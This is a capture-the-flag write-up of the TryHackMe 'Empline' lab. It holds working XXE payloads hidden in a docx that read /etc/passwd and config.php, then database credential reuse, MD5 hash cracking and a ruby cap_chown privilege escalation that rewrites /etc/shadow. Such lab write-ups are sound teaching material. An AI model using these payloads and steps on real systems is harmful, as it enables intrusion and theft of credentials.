


empline
THM: Empline
Enumeration
Network Enumeration
1. Nmap

Website Enumeration
1. Browser
We see a employment portal website.
By clicking on the “EMPLOYMENT” header nothing happens. However, we can see on the bottom left of the browser that it is trying to connect to http://jobs.empline.com
Thus, we add job.empline.thm & empline.thm to our kali machine's hosts file. (Add the following line)
10.10.164.113 job.empline.thm empline.thm
Next, we go the url pointed by the “EMPLOYMENT” tab. We can see its a job portal where there are openings & we can apply for a job. We have to upload a resume.
Now, also if we remove the /careers from the url & try to access http://job.empline.com we get the following login page.
Foothold
Note: There is a very easy way to foothold this machine. The opencats login page is version 0.9.4 which has RCE vulnerability & can be easily found using searchsploit.

However, we will try to do it the manual way.
Reference: https://doddsecurity.com/312/xml-external-entity-injection-xxe-in-opencats-applicant-tracking-system/
The vulnerability that Opencats has is XXE in the uploaded docx files.
Lets create a docx file using python.
from docx import Document
document = Document()
paragraph = document.add_paragraph('Ansuman Ray')
document.save('resume.docx')

Note: We can also create a file using any GUI office software. Just create docx file & put a name to regonize it later.
Next, we upload the document in the portal by clicking on upload. It will show our name.
In my case it will show ‘Ansuman Ray’
Next, as per the reference, we try to create a XXE payload. For that we need to unzip the docx file & edit one of its XML file.
we will edit the word/document.xml to include our XXE payload.
we add DOCTYPE comment & include a payload name. (payload) in my case.
Then call that same payload from the document where we replaced “Ansuman Ray” with “&payload;”
we save the document & zip it back.
<!DOCTYPE test [<!ENTITY payload SYSTEM 'file:///etc/passwd'>]>
&payload;
zip resume.docx word/document.xml
We upload it again to test the payload.
As we can see, we have successfully exploited the vulnerability. Now to get foothold into the system we need to look for some files that would have sensitive information.
We know that EMPLINE website is running on a php server so lets try to read the config file. Using our earliear reference. Following is the payload.
<!DOCTYPE test [<!ENTITY payload SYSTEM 'php://filter/convert.base64-encode/resource=config.php'>]>
we change the word/document.yml file again & zip it back to create our new resume.docx. Next, we upload it.

we got a base64 encodedoutput of config,php file. Lets, decode this.
copy it to a file in our local system & then run the following command.
cat config_raw | base64 -d > config.php
We got a DB credential in the file.
Lets, login to the database from our machine. Since we know that port 3306 was open during nmap scan.
mysql -h 10.10.164.113 -u james -p
show databases;
use opencats;
show tables;
select * from user;
we see a table named user. We open it to see the username & passwords.
The user we are interested in is george as during our intial XXE testing we saw the /etc/passwd file & we know that george is a server user.
we get a hashed password of george. We will check it in hashid to find its type & then try to crack it using hashcat.
hashid suggests MD2 & MD5. We will try will MD5 using hashcat.
hashid 86d0dfda99dbebc424eb4407947356ac
hashcat -m 0 86d0dfda99dbebc424eb4407947356ac /usr/share/wordlists/rockyou.txt

we got the password for the user george. We SSH to the machine using the above credentials & get the user flag from george's home.
Privilege Escalation
For privilege escalation on this system we will use capablities. We list the allowed capabliities using the following.
getcap -r / 2>/dev/null

we can see that ruby binary has cap_chown+ep capability set. This can be used to changed the ownership of any file in the system.
/usr/local/bin/ruby -e "File.chown(1002, 1002, '/etc/shadow')"
we will create a openssl password (12345) & replace it in place of root.
openssl passwd -6 -salt cybex 12345
we add the encrypted password into the /etc/shadow file & switch to root user.
Thanks !!